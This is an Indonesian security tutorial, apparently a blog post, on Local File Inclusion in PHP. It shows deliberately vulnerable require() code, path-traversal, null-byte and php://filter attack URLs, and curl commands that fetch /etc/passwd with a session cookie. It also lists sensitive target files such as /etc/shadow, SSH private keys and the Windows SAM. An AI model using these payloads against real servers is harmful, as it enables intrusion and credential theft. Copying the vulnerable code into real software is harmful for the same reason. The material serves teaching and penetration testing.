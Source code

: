 ```yaml
---
title: "Local File Inclusion"
date: "2019-01-20"
tags: ['Security']
---
```


Local File Inclusion berarti akses tidak sah ke file yang ada di sistem. Kerentanan ini memungkinkan penyerang mendapatkan akses ke file sensitif di server, dan itu mungkin juga menyebabkan mendapatkan shell.

## Cara Kerja Local File Inclusion

LFI berasal dari input pengguna yang tidak bersih. LFI sangat umum di situs web yang menjalankan php.  
  
Berikut adalah contoh kode-php yang rentan terhadap LFI. Seperti yang bisa dilihat, kita hanya memasukkan parameter-url ke fungsi-kebutuhan tanpa filter. Jadi pengguna bisa menambahkan path ke file apa pun.

```
$file = $_GET['page'];
require($file);
```

Dalam contoh ini pengguna bisa memasukkan karakter apapun dan mengambil file _C:/xampp/apache/conf/extra/httpd-vhosts.conf_.

`http://example.com/page=C:/xampp/apache/conf/extra/httpd-vhosts.conf`

![Local File Inclusion](images/1-1024x571.png)

### Bypass File Ber-Ekstensi PHP

Pada beberapa kasus, kita tidak bisa menampilkan beberapa file karena penulisan script pada servernya. Berikut ini contoh tampilannya:

```
$file = $_GET['page'];
require($file . ".php");
```

PHP ditambahkan ke nama file, ini berarti kita tidak akan dapat menemukan file yang kita cari. Semisal kita ingin melihat file .htaccess, tidak akan bisa karena file `/dir/dir/.htaccess.php` tidak ada.

![Local File Inclusion](images/2-1024x538.png)

Namun, jika kita menambahkan nullbyte ke akhir string-serangan, `.php` tidak akan terbaca. Jadi saya menambahkan `%00` ke akhir string serangan.

`http://example.com/page=../../../../../../etc/passwd%00`

Teknik ini biasanya disebut teknik nullbyte karena `%00` adalah nullbyte. Teknik ini hanya berfungsi dalam versi PHP di bawah `5.3`.

Cara lain untuk mengatasi masalah ini adalah dengan menambahkan tanda tanya pada string serangan. Dengan cara ini, barang-barang setelah ditafsirkan sebagai parameter dan karenanya dikecualikan. Berikut ini sebuah contoh:

`http://example.com/page=../../../../../../etc/passwd?`

### Bypass PHP-Execution

Jadi, jika kita menemukan LFI, kita dapat dengan mudah membaca file `.txt` tetapi tidak dengan `.php`. Itu karena file tersebut dieksekusi oleh server web, karena akhir file mereka mengatakan bahwa itu berisi kode PHP. Kita dapat mem-bypass dengan menggunakan filter-php bawaan.

`http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index`

![Local File Inclusion](images/3-1024x543.png)

Di sini saya menggunakan filter-php untuk mengonversikan isi dari sebuah file PHP menjadi base64. Sekarang kita hanya perlu men-decode-nya. Simpan teks base64 ke dalam file dan kemudian jalankan: `base64 -d namafile.php`

## Tricks & Cheatsheet

Ada juga beberapa trik dan hal lain yang membantu saya saat melakukan LFI.

### Linux

Jika kita membaca file langsung di browser, maka output file akan sulit dibaca. Cara mengatasinya adalah dengan men-download file tersebut dari terminal. Tetapi itu tidak akan berhasil jika ada login yang memblokirnya. Jadi solusinya adalah:

```
# Login dan menyimpan Cookie
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile
```

Ini adalah tata letak default dari file-file penting.  
https://wiki.apache.org/httpd/DistrosDefaultLayout

```
# Sensitive Files
/etc/issue 
/etc/motd 
/etc/passwd 
/etc/group 
/etc/resolv.conf 
/etc/shadow
/home/[USERNAME]/.bash_history or .profile
~/.bash_history or .profile
$USER/.bash_history or .profile
/root/.bash_history or .profile
/etc/mtab  
/etc/inetd.conf  
/var/log/dmessage

# File yang berada di Web Server
.htaccess
config.php

# SSH
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts

# Logs
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log

# File dari user spesifik
.bash_history
.mysql_history
.my.cnf
```

"Di Linux, /proc menyertakan direktori untuk setiap proses yang berjalan, termasuk proses kernel, di direktori bernama / proc / PID, di mana PID adalah nomor proses. Setiap direktori berisi informasi tentang satu proses, termasuk: /proc/PID/cmdline, perintah yang awalnya memulai proses. "  

https://en.wikipedia.org/wiki/Procfs  
https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/

```
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

Baca juga: [Reverse & Spawning Shell](https://akbar.kustirama.id/reverse-spawning-shell/).

### Windows

```
#Fingerprinting
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini

# Logs
c:\Program Files\Apache Group\Apache\logs\access.log  
c:\Program Files\Apache Group\Apache\logs\error.log

# Session PHP
c:\WINDOWS\TEMP\  
c:\php\sessions\  
c:\php5\sessions\  
c:\php4\sessions\
```

File yang saya gunakan pada screenshot diatas bisa didapatkan di [github.com/abaykan/Labs](https://github.com/abaykan/Labs/blob/master/local-file-inclusion.php).

## Referensi

- https://github.com/abaykan/Labs/blob/master/local-file-inclusion.php (source-code dari yang ada di screenshot).
- https://highon.coffee/blog/lfi-cheat-sheet/
- http://securityidiots.com/Web-Pentest/LFI
- https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
- https://nets.ec/File\_Inclusion
- https://gist.github.com/sckalath/da1a232f362a700ab459
